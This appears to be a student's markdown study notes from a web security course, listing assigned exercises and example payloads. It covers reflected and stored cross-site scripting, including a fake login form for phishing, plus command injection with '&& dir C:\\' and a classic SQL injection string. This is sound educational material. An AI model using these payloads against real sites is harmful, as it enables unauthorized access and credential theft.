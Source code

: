 ## Important Exercises (by Bernard)

- exercise 3
- exercise 4
- exercise 6a
- exercise 7
- exercise 14

## Reflected Cross-Site Scripting

- quick check for XSS vuln

```jsx
<i>bruh</i>
```

- inject js code

```jsx
// this dumps your browser cookies
<script>alert(document.cookie);</script>
```

## Stored Cross-Site Scripting

- Executes for every user who visits page

```jsx
// creates fake login form to trick users
Login to see more features:<br>
<form>
Username : <input type="text"><br>
Password : <input type="password"><br>
<input type="submit" value="login">
</form>
```

## Command Injection

- append extra commands with &&

```bash
# prints out contents of C:\\ drive too (for windows shells)
192.168.12.1 && dir C:\\
```

## SQL Injection

- basic injection

```sql
# add # or ;-- or -- at back to comment any subsequent sql codes
# returns true
bruh' or '0' = '0
```
